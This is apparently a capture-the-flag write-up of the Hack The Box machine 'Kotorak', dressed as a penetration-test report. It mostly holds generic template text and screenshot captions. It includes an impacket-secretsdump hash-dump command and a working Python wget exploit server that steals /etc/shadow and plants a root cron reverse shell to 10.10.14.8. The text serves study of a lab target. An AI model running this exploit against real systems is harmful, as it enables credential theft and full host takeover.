# Security Assessment Report: Kotorak


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Kotorak** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Kotorak |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Hard |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept


* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
impacket-secretsdump \
  -ntds ./20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit \
  -system ./20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin \
  LOCAL \
  -outputfile hashes

```



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


93f844f50491ef797c9c1b601b4bece8



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 15:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 16:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 17:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 18:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 19:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 20:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 21:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 22:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


```jsx
en kali
authbind python -m pyftpdlib -p2121 -w

en victima 

authbind python exploit.py &

touch archive.tar.gz

#!/usr/bin/env python


import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.8'
FTP_PORT = 2121

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()

```

950d1425795dfd38272c93ccbb63ae2c



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Public network service reachable without rate-limiting, authentication barriers, or egress filtering. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Audit listening sockets via `ss -tulpn`, apply UFW / iptables rules, and patch daemon binaries. | `nmap -p- --open -T4 $TARGET_IP` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Missing kernel hotfixes, legacy software versions, or world-readable credential configuration files. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Apply OS kernel security updates and implement centralized secret management. | `uname -r && apt-get -s upgrade | grep -i security` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
nmap -p- --open -T4 $TARGET_IP
```
* **Expected Output upon Successful Remediation:**
```text
Only strictly required operational ports exposed (e.g., 443/TCP)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
uname -r && apt-get -s upgrade | grep -i security
```
* **Expected Output upon Successful Remediation:**
```text
0 upgraded, 0 newly installed, 0 to remove (Fully patched kernel and packages)
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
